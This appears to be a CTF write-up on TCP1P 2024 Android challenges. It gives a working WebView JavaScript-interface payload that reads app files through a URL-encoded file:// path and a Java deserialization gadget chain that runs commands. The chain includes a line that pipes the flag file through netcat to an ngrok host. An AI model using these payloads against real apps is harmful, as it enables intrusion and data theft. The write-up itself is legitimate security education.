

Hey everyone, last weekend I participated in the much-anticipated TCP1P CTF. I had a great time with their mobile challenges last year, and this year's challenges were just as good! This time we have 4 challenges and I was able to solve 2 challenges. This time they had poc [tester](https://github.com/TCP1P/Mobile-POC-Tester) which works well for the challenges. These challenges are now [available](https://github.com/TCP1P/TCP1P-CTF-2024-Challenges-Public) in github.


{:style="display:block; margin-left:auto; margin-right:auto;width=50%;height=50%"} 


### Contents
*   Interfaces [Android]
*   LookUp [Android]
*   Password Manager 2.0 [Android]


### Interfaces [Android]

In this challenge we have exported MainActivity and WebViewActivity. On launching the app, the main activity redirects us to WebviewActivity with URL `https://aimar.id`.

```java
// MainActivity.java
...
Intent intent = new Intent(this, WebViewActivity.class);
intent.putExtra("url", "https://aimar.id/");
startActivity(intent);
...
```

The webview activity loads the given URL with vulnerable webview setting privileges. So Also the webview registers a javascript interface which looks suspicious which also hints us with the challenge title. Since the webview activity is exported we can pass any URL and make webview load it, but there is a catch. `isValidURL` checks whether the URL which we are trying to load is of *file* protocol. So our goal is to read the flag which is in the app's file directory. 

```java
// WebViewActivity.java
public void onCreate(Bundle savedInstanceState) {
	...// truncated
        this.webView = webView;
        WebSettings webSettings = webView.getSettings();
        webSettings.setJavaScriptEnabled(true);
        webSettings.setAllowFileAccess(true);
        webSettings.setAllowContentAccess(true);
        webSettings.setAllowFileAccessFromFileURLs(true);
        webSettings.setAllowUniversalAccessFromFileURLs(true);
        this.webView.addJavascriptInterface(new MyJavascriptInterface(this.webView), randomString(32));
        this.webView.setWebViewClient(new WebViewClient() { // from class: app.aimar.id.interfaces.WebViewActivity.1
            public void onReceivedSslError(WebView view, SslErrorHandler handler, SslError error) {
                ... // truncated
            }
        });
        Uri uri = Uri.parse(getIntent().getStringExtra("url"));
        if (uri != null && isValidURL(uri)) {
            this.webView.loadUrl(uri.toString());
        } else {
            finish();
        }
    }

public String randomString(int length) {
StringBuilder sb = new StringBuilder();
for (int i = 0; i < length; i++) {
    int index = (int) ("ABCDEFGHIJKLMNOPQRSTUVWXYZabcdefghijklmnopqrstuvwxyz".length() * Math.random());
    sb.append("ABCDEFGHIJKLMNOPQRSTUVWXYZabcdefghijklmnopqrstuvwxyz".charAt(index));
}
return sb.toString();
}

boolean isValidURL(Uri uri) {
if (uri.getScheme().equals("file")) {
    Log.i("WebViewActivity", "Invalid scheme: " + uri.getScheme());
    return false;
}
return true;
}
```

To read file we can use javascript interface to load *file* URLs. But here the catch is if the URL contains **flag.txt** string it loads `aimar.id`. After fuzzing with webview, I found out that we can load URL encoded string in webview which while uri parsing won't decode it. So the idea is to load our webpage and find the interface using javascript since *javascript* is enabled in webview. And then using the javascript interface to load URL encoded *file* URL. Even with `setAllowUniversalAccessFromFileURLs` I tried loading file using XMLHttpRequest as mentioned in this [blog](https://blog.oversecured.com/Android-security-checklist-webview/#attacks-where-universal-file-access-from-file-urls-is-enabled) but it failed. Not sure whether new android apis prevents this.

```java
// MyJavascriptInterface.java
@JavascriptInterface
public void loadUrlSafe(final String url) {
    Uri uri = Uri.parse(url);
    if (uri.toString().contains("flag.txt")) {
        this.webView.post(new Runnable() { // from class: app.aimar.id.interfaces.MyJavascriptInterface.1
            @Override // java.lang.Runnable
            public void run() {
                MyJavascriptInterface.this.webView.loadUrl("https://aimar.id/");
            }
        });
    } else {
        this.webView.post(new Runnable() { // from class: app.aimar.id.interfaces.MyJavascriptInterface.2
            @Override // java.lang.Runnable
            public void run() {
                MyJavascriptInterface.this.webView.loadUrl(url);
            }
        });
    }
}
```


I crafted the below javascript to find out the interface which in our case is random string of length 32. The used it to call the javascript Interface method `loadUrlSafe` with file URL. 

```html
<html>
	<body>
	<script>
		var windows_obj = Object.getOwnPropertyNames(window);
        var res = ""
        const findOne = (obj) => {
            try {
                // Ensure that window[obj] is a valid object
                if (window[obj] && typeof window[obj] === 'object') {
                    return Object.getOwnPropertyNames(window[obj]);
                }
            } catch (e) {
                // Catch errors when trying to access certain properties
                return null;
            }
            return null;
        };

        for (var i = 0; i < windows_obj.length; i++) {
            var window_obj = windows_obj[i] ?? "document"; 

            if (window_obj === null || typeof window_obj === 'undefined') {
                continue;
            }

            var obj_props = findOne(window_obj);

            if (obj_props && obj_props[0] === 'loadUrlSafe') {
                var interface = window_obj;
                console.log(interface);
            }
        }
        var interface_obj = window[interface]

        interface_obj.loadUrlSafe("file:///data/user/0/app.aimar.id.interfaces/files/%66%6c%61%67%2e%74%78%74")
	</script>
	</body>

</html>
```

And creating my poc app which sends the URL to the WebViewActivity.

```java
public class MainActivity extends AppCompatActivity {
    protected void onCreate(Bundle savedInstanceState) {
        super.onCreate(savedInstanceState);
        setContentView(R.layout.activity_main);

        Intent intent = new Intent();
        intent.setClassName("app.aimar.id.interfaces","app.aimar.id.interfaces.WebViewActivity");

        String url = "https://white-misty-90.tiiny.site/"; // hosted HTML content 
        intent.putExtra("url",url);
        startActivity(intent);
        }
    }
```


Initially the challenge also checks if the domain name ends with `aimar.id` in isValidURL method. But later the challenge author updated it to load any URL to prevent solvers from buying domain ending with `aimar.id` since it has only endswith check. I couldn't find any way to laod arbitrary URL if this is present. Tried all these [tricks](https://hackerone.com/reports/431002) but android parses url correctly now. Maybe they could have updated in recent APIs. Another way is find any xss in `aimar.id` host. But it is a static phpinfo page, even the php is updated to recent version. I will update here if challenge author posts any writeup.

{:style="display:block; margin-left:auto; margin-right:auto;width=50%;height=50%"} 


### LookUp [Android]

This challenge took quite a while to complete, but I managed to solve it in the end. This challege has exported activity `RealTimeUpdateActivity` which does nothing but receiving our intent and reading extras from our intent. Since android bundle that can be `Parcelable and Serializable` objects. So it is clear our goal is to solve using deserialization. I have previous knowledge of deserialization in android reading these blogs [1](https://github.com/modzero/modjoda) and [2](https://shivasurya.me/security/android/android-security/2024/01/24/java-deserialization-rce-android-application-layer.html). 

```java
public class RealTimeUpdateActivity extends AppCompatActivity {
    public void onCreate(Bundle savedInstanceState) {
        super.onCreate(savedInstanceState);
        Intent intent = getIntent();
        Bundle bundle = intent.getExtras();
        if (bundle != null) {
            for (String extra : bundle.keySet()) {
                Log.d("extra", "sucessfully deserialized " + intent.getStringExtra(extra));
            }
        }
    }
}
```

```java
public class Testing2 implements Serializable {
    private Object object;
    private void readObject(ObjectInputStream ois) throws ClassNotFoundException, IOException {
        ois.defaultReadObject();
        Log.d("extra", this.object.toString());
    }
}
```

```java
public class Testing implements Serializable {
    private String cmd;
    public String toString() {
        StringBuilder output = new StringBuilder();
        try {
            Process process = Runtime.getRuntime().exec(this.cmd);
            BufferedReader reader = new BufferedReader(new InputStreamReader(process.getInputStream()));
            while (true) {
                String line = reader.readLine();
                if (line != null) {
                    output.append(line).append("\n");
                } else {
                    reader.close();
                    return output.toString();
                }
            }
        } catch (IOException e) {
            throw new RuntimeException(e);
        }
    }
}
```

Also the challenge has the gadget class `Testing.java` which executes cmd. `Testing.java` which is serializable class which tries to read our object and construct it. Using these two we can create gadget chain and pass intent with serializable. When victim app reads `intent.getStringExtra()` , it calls readObject of our `Testing2` object which calls toString() method of `Testing` object and finally invoking **exec**. 


For setting the variable `cmd` as well as `object` we can use Java reflections since there are no public setters to set it in the object. This is the common way used while exploiting deserialization bugs, a neat [blog](https://greyshell.github.io/posts/insecure_deserialization_java/) explaining this.

```java
public class MainActivity extends AppCompatActivity {

    @Override
    protected void onCreate(Bundle savedInstanceState) {
        try {
            Field f = Testing.class.getDeclaredField("cmd");
            f.setAccessible(true);
            Log.d("foobar::",f.getName());

            Testing testing = new Testing();
            f.set(testing,"whoami");
            
            Testing2 testing2 = new Testing2();
            Field f2 = Testing2.class.getDeclaredField("object");
            f2.setAccessible(true);
            f2.set(testing2,testing);

            Intent intent = new Intent();
            intent.setClassName("com.dimas.lookup","com.dimas.lookup.RealTimeUpdateActivity");

            Bundle bundle = new Bundle();
            bundle.putSerializable("exploit",testing2);
            intent.putExtras(bundle);
            startActivity(intent);


        } catch (NoSuchFieldException e) {
            throw new RuntimeException(e);
        } catch (IllegalAccessException e) {
            throw new RuntimeException(e);
	    }
    }
}

```

In order to construct the serialized object we should have `Testing.java` and `Testing2.java` in our project structure with same package name. 

```
project structure
->java
    ->com
        ->dimas.lookup
            ->Testing.java
            ->Testing2.java
        ->example.tcpip
            ->MainActivity.java
```


{:style="display:block; margin-left:auto; margin-right:auto;width=50%;height=50%"} 


In victims app logcat we can see that the output of our command `whomai` is run successfully. But now comes the hard part where I spent literally half day to get the flag. To get the flag we should read flag.txt in app files directory. But somehow I can't combine commands using pipe or redirect operator. After struggling for few hours I came to know that it is the default behaviour of java's runtime exec.  Later using this [blog](https://code-white.com/blog/2015-03-sh-or-getting-shell-environment-from/) I was able craft my payload with pipes.

```java
f.set(testing,"sh -c $@|sh . echo cat /data/user/0/com.dimas.lookup/files/fl* | nc 0.tcp.in.ngrok.io 12424");
```

This reads flag from the apps directory and pipes it to our netcat connection. Also android system has only few binaries. I couldn't find any other binaries to exfiltrate contents remotely. 

Listening nc on port 9090 and using ngrok to port forward it, I was able to receive the flag from the remote system.

```bash 
~nc -nlvp 9090  > recvd
Connection received 

~cat recvd
TCP1P{basic_deserialization_in_android_is_awssome_485846283}
```

You can also use payload generator from [here](https://ares-x.com/tools/runtime-exec/). I won't forgive java for this 😭. 


### Password Manager 2.0 [Android]

This is the only unsolved android challenge at end of CTF. But after the CTF ended, a CTF player posted his writeup [here](https://www.lbyte.id/2024/10/15/writeup/TCP1P%202024:%20Mobile%20Writeup/). I was able to read `pwds.yml` using vulnerable file provider during CTF, but still the writeup shows that it is a long way to achieve RCE. 


